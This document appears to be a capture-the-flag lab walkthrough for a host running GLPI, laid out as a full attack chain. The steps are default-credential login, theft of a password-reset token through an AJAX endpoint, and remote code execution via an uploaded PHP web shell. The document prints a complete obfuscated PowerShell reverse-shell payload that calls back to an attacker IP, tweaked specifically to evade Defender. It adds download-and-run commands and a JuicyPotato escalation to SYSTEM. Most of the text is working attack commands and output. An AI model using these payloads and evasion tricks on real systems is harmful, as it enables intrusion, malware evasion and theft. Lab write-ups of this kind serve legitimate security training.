

MGMT01 - 172.16.2.12
https://www.tarlogic.com/blog/glpi-vulnerability-cve-2019-14666/
Trying some default credentials we can get in with normal / normal
In the Administration, we can see the users
We can highjack the glpi_adm account with the email address
To do this, we need to have an active forgot password request. Sign out and go to forgot password. Put in the request for glpi_adm@offshore.com
Sign back in with normal / normal
Go to create a ticket
Turn on Burp intercept and click the drop down for requester


Right click and switch it to a GET request
Send it to Repeater
Change the AJAX URL to get a list of forgot password requests
/ajax/autocompletion.php?itemtype=User&field=password_forget_token&term=
c728fa494344d5a6fdd202ed970cdf7a0c92412b
Use this token with http://172.16.2.12/front/lostpassword.php?password_forget_token=c728fa494344d5a6fdd202ed970cdf7a0c92412b
Reset the password
Sign in with the new password
| Linked file: setup_glpi.py |
Use the script above to get RCE
python /home/user/Downloads/setup_glpi.py --url http://172.16.2.12 --user glpi_adm --password password123! --platform Win
It might take a few iterations before you get the RCE Found message
[+] Logged in
Deleting network 1821
[+] Network created
Name: PoC
ESSID: RCE
[+] Network mofified
New ESSID: RCE1
[+] Network mofified
New ESSID: RCE1
[+] Shell: http://172.16.2.12/pics/JrPFaEXk.php
Shell size: 13893
Press any key to continue with the next iteration...
Deleting network 1822
[+] Network created
Name: PoC
ESSID: RCE
[+] Network mofified
New ESSID: RCE12
[+] Network mofified
New ESSID: RCE12
[+] Shell: http://172.16.2.12/pics/eGSMaufU.php
Shell size: 13894
Press any key to continue with the next iteration...
Deleting network 1823
[+] Network created
Name: PoC
ESSID: RCE
[+] Network mofified
New ESSID: RCE123
[+] Network mofified
New ESSID: RCE123
[+] Shell: http://172.16.2.12/pics/GZJOVcVS.php
Shell size: 13896
Press any key to continue with the next iteration...
Deleting network 1824
[+] Network created
Name: PoC
ESSID: RCE
[+] Network mofified
New ESSID: RCE1234
[+] Network mofified
New ESSID: RCE1234
[+] Shell: http://172.16.2.12/pics/AYJFiCLe.php
Shell size: 13897
Press any key to continue with the next iteration...
Deleting network 1825
[+] Network created
Name: PoC
ESSID: RCE
[+] Network mofified
New ESSID: RCE12345
[+] Network mofified
New ESSID: RCE12345
[+] Shell: http://172.16.2.12/pics/YhAEhXNw.php
Shell size: 13895
Press any key to continue with the next iteration...
Deleting network 1826
[+] Network created
Name: PoC
ESSID: RCE
[+] Network mofified
New ESSID: RCE123456
[+] Network mofified
New ESSID: RCE123456
[+] Shell: http://172.16.2.12/pics/aTEuDLCf.php
Shell size: 13899
Press any key to continue with the next iteration...
Deleting network 1827
[+] Network created
Name: PoC
ESSID: RCE
[+] Network mofified
New ESSID: RCE1234567
[+] Network mofified
New ESSID: RCE1234567
[+] Shell: http://172.16.2.12/pics/xLyYdNES.php
Shell size: 13900
Press any key to continue with the next iteration...
Deleting network 1828
[+] Network created
Name: PoC
ESSID: RCE
[+] Network mofified
New ESSID: RCE12345678
[+] Network mofified
New ESSID: RCE12345678
[+] Shell: http://172.16.2.12/pics/CGsqAUns.php
Shell size: 8387
[+] RCE FOUND!
Now if we go to that php, we can get RCE
http://172.16.2.12/pics/CGsqAUns.php?0=whoami
Our executed code result appears at the bottom
Using hoaxshell, create a payload
./hoaxshell.py -s 10.10.16.113 -p 2222 -r -H "Authorization"
Find the letters IEX and put an apostrophe before and after the E so it's i'e'x
This will make Defender not alert
└─$ cat rev_shell.ps1
$s='10.10.16.113:2222';$i='9e1b048b-40181bca-57c94120';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/9e1b048b -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/40181bca -Headers @{"Authorization"=$i}).Content;if ($c -ne 'None') {$r=i'e'x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/57c94120 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
Use this command for in RCE to pull the file
powershell wget http://10.10.14.12/rev_shell.ps1 -Outfile payload.ps1
172.16.2.12/pics/CGsqAUns.php?0=powershell wget http://10.10.16.113/rev_shell.ps1 -Outfile payload.ps1
List the directory to make sure it didn't get deleted by Defender
http://172.16.2.12/pics/CGsqAUns.php?0=dir
172.16.2.12/pics/CGsqAUns.php?0=powershell .\payload.ps1
That should get you a rev shell back in hoaxshell
Use this command to find where our flag.txt is
Get-ChildItem -Path C:\ -Recurse -Filter "flag.txt"
PS C:\xampp > type c:\Users\Public\flag.txt
Check our user's privileges
PS C:\xampp > whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token Disabled
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled
SeAuditPrivilege Generate security audits Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
We have SeImpersonatePrivilege so let's try JuicyPotato + RCAT - upload them both with the RCE + powershell wget above.
Start the RCAT listener and execute JP + RCAT
C:\xampp\htdocs\pics\jp.exe -t * -p "c:\windows\system32\cmd.exe" -a "/c C:\xampp\htdocs\pics\rcat.exe connect 10.10.16.113 4444"
└─$ ./rcat listen 10.10.16.113 4444
Listening on 10.10.16.113:4444
[+] Connection from 10.10.110.3:50687
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\> whoami
whoami
nt authority\system
PS C:\> type c:\users\administrator\desktop\flag.txt
type c:\users\administrator\desktop\flag.txt